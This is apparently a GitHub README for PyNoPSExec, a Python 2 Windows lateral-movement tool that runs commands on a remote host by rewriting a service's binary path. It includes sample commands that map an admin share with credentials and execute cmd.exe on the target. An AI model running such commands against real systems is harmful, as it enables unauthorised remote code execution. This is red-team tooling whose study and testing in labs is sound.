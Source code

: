 # PyNoPSExec
**A Lateral Movement Tool Learned From SharpNoPSExec  --  Twitter: @juliourena  根据@juliourena大神的SharpNOPsExec项目改写的横向移动工具** 
+ Platform(平台): Windows 10
+ Language(语言): Python2
## 原理简介  
**通过修改服务启动的二进制文件路径，然后启动服务来执行，对服务的要求是：**
+ 没有运行的手动启动或禁止启动的服务
+ 服务没有依赖项
+ 该脚本没有提供服务二进制文件路径恢复功能，需要先记好对应路径，然后可以再次运行该脚本进行恢复，避免服务出问题
## 使用方法  


```bash
net use \\192.168.23.107\admin$ "TestPassword@123" /user:testuser
python PyNoPSexec.py  -t 192.168.23.107 -u testuser -p "TestPassword@123" -d test.sec.com -s AppMgmt -e "c:\\windows\\system32\\cmd.exe /c echo hackedbybobac > c:\\bobac.txt"
```
![image](https://user-images.githubusercontent.com/11972644/117527553-82264700-afff-11eb-9850-45ecbd997f98.png)
![image](https://user-images.githubusercontent.com/11972644/117527633-0bd61480-b000-11eb-955e-d8310d463090.png)


